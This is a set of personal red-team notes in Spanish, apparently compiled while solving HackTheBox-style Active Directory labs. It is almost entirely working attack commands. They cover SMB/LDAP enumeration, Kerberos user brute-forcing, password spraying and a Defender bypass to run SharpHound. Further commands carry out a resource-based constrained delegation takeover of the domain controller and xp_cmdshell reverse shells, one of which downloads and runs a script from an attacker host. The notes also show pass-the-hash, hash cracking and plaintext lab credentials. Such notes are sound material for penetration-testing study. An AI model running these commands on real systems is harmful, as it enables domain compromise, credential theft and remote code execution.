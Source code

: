 [[RED TEAM]]
windows ad [[ENUMERACION]]
enumerar shares del smb

crackmapexec smb 1.1.1.1 -> dice nombre de la maquina y dominio -> meter dominio en 
etc/hosts y dominio + nombre (dc.support.htb)
crackmapexec smb 1.1.1.1 -u 'user' -p 'passwd'
smbmap -H 10.10.10.10 -u '' -p ''

```
smbclient -L \\\\10.129.178.26\\ -> lista los shares con null session
```
```
smbclient \\\\10.129.178.26\\support-tools se conecta a un share
smbclient \\\\10.129.178.26\\support-tools -U 'john'
```
dir -> lista contenido 
get flag.txt -> descarga el archivo a tu pc

ENUMERAR USUARIOS CON KERBRUTE

/opt/kerbrute/kerbrute userenum -d dominio --dc 1.1.1.1 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt


WINRM
comprobar si unusuario puede usar winrm 
crackmapexec winrm 1.1.1.1 -u 'user' -p 'passwd'

LDAP
revisar si creds son validas
```bash
ldapsearch -x -H ldap://<IP> -D 'username@domain' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

buscar inf de un user 
```
ldapsearch -x -H ldap://<IP> -D 'username@domain' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD> | grep -i "samaccountname: user" -B 40
```

SI TENEMOS CREDS VALIDAS PARA SMB
rpcclient -U 'user%contraseña' 10.10.11.174

enumdomusers -> ver usuarios del dominio

enumdomgroups -> enumera grupos de trabajo 
cada user y cada grupo tiene un rid
querygroupmem 0x200 -> dice el rid de los users del grupo con ese rid

limpiar los usuarios
```rpcclient -U 'user%contraseña' 10.10.11.174 -c 'enumdomusers' | grep -oP '\[.?\]'  | grep -v 0x | tr -d '[]' > users ```
REVISAR SI LAS CONTRASEÑAS SE REUTILIZAN
``` 
netexec smb 10.10.11.174 -u archivoconlosusers -p 'contraseña' --continue-on-succes
```

WINRM
```
evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
```

ESCALAR PRIVILEGIOS 

ver permisos -> whoami /priv
ver grupo y info -> net user usuario
ver todos -> grupos net group

==BLOODHOUND==

hay que injectar sharphound en la maquina para que exporte un zip

sudo neo4j console
firefox localhost:7474   ->creds por defecto (cambiadas)  user:passwd ->neo4j:neo4j
abrir bloodhound
descargar sharphound (opt/sharphound)
copiar /opt/sharphound/sharphound.exe al dir de scripts de la maquina y abrir shell de winrm
PS> upload sharphound.exe
si defender no deja subirlo
PS> menu
PS> Bypass-4MSI
PS> ./SharpHound.exe -c All
PS> download C:/Users/usuario/documents/20250421103206_BloodHound.zip BH.zip
bloodhound >  upload data > subir el zip

añadir el user a owned y ver privilegios outbound object control
buscar ruta de nuestro user a admin
privilegio generic all -> rbcd.py -> otorga un service ticket -> descargar powermad.ps1 -> wget https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1 
PS> upload Powermad.ps1
PS> Import-Module ./Powermad.ps1
PS> ./Powermad.ps1
PS> New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
PS>Get-ADComputer -identity FAKE-COMP01
PS>Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
PS>Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
```ps
$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```



https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html
```bash
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid

```
./rbcd.py -f EVILCOMPUTER -t dc -dc-ip 10.10.11.174 support.htb\\support:Ironside47pleasure40Watchful
```
subir getST.py

```
./getST.py -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/nombrecompfalso$:passwddelcompfalso
```
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)


```
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456
```

si dice clock skew to great cambiar la hora
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k dc.support.htb

MSSQL
conectarse:

```bash
python3 /home/pstrn/.local/pipx/venvs/crackmapexec/bin/mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51

netexec mssql <ip-del-servidor> -u <usuario> -p <contraseña>
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

exec xp_cmdshell 'type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI'

revshell
exec xp_cmdshell 'powershell -e <powershellrevshell en b64>'

#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```

usar winpeas
passthehash -> evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e

LOCAL DB
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" gibbon
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;"

HASH CON SALT
```
f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```
```
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

GET TGT
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=f.frizzle.ccache
ssh f.frizzle@frizz.htb -K

